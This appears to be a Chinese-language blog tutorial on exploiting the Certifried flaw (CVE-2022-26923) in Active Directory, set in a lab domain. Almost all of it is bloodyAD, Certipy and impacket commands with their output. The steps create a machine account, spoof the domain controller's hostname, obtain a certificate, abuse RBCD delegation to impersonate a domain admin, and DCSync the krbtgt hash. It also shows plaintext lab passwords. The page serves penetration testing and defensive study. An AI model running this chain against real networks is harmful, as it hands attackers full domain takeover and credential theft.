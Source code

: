 ```yaml
---
title: 利用 Certifried (CVE-2022-26923)
summary: 了解如何使用 bloodyAD 轻松利用 Certifried 漏洞。
date: 2024-05-11
authors:
  - soka
  - admin

tags:
  - Authentication
  - CVE
  - Exploit
  - bloodyAD
  - Microsoft

categories:
  - Active Directory
---
```


最近，微软修复了 Certifried (CVE-2022-26923) 漏洞，并发布了这篇[博客文章](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)。以下是如何使用 [bloodyAD](https://github.com/CravateRouge/bloodyAD) 在不使用 PKINIT 的情况下利用此漏洞的示例。

## Linux

我们需要一台机器，可以是已被攻陷的机器，也可以在 `ms-DS-MachineAccountQuota` > 0 的情况下创建一台：
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'DC=crashlab,DC=local' --attr ms-DS-MachineAccountQuota                     

distinguishedName: DC=crashlab,DC=local
ms-DS-MachineAccountQuota: 10
```

我们在 LDAP 中创建一个名为 `cve` 的计算机对象：
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'

[+] cve created
```

然后，我们更改 `dNSHostName` 属性（创建对象时为空），使其与域控制器的计算机名称匹配：`CRASHDC.crashlab.local`。
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 set object 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName -v CRASHDC.crashlab.local

[+] CN=cve,CN=Computers,DC=crashlab,DC=local's dnsHostName has been updated
```

验证属性是否已正确配置：
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'CN=cve,CN=Computers,DC=crashlab,DC=local' --attr dNSHostName                  

distinguishedName: CN=cve,CN=Computers,DC=crashlab,DC=local
dNSHostName: CRASHDC.crashlab.local
```

接下来，我们使用 [Certipy](https://github.com/ly4k/Certipy) 请求 `cve` 计算机的证书：
```ps1
# 10.100.10.13 is the ADCS server
> certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with DNS Host Name 'CRASHDC.crashlab.local'
[*] Saved certificate and private key to 'crashdc.pfx'
```

现在，我们尝试使用 [Certipy](https://github.com/ly4k/Certipy) 和之前请求的证书获取 TGT：
```ps1
> certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: crashdc$@crashlab.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

如果 PKINIT 在此 AD 上不可用，我们可以尝试使用 [bloodyAD](https://github.com/CravateRouge/bloodyAD) 的证书认证功能和 RBCD 技术：
```ps1
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 add rbcd 'CRASHDC$' 'CVE$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134             
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set        
[+] Delegation rights modified successfully!                                                                           
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
```

设置委派权限后，我们可以使用 [impacket](https://github.com/SecureAuthCorp/impacket) 的 `getST.py` 工具冒充域管理员（在本例中为 `emacron`）并获取 TGT：
```ps1
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                               
                                                                                                                       
[*] Getting TGT for user                                                                                               
[*] Impersonating emacron                                                                                              
[*]     Requesting S4U2self                                                                                            
[*]     Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache

> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
```

最后，我们使用 [impacket](https://github.com/SecureAuthCorp/impacket) 的 `secretsdump.py` 工具，通过获取的 TGT 执行 DCSync：
```ps1
> secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:492850f62466ef2bd1f4a56f112e01f1::: (status=Disabled)
[*] Cleaning up...
```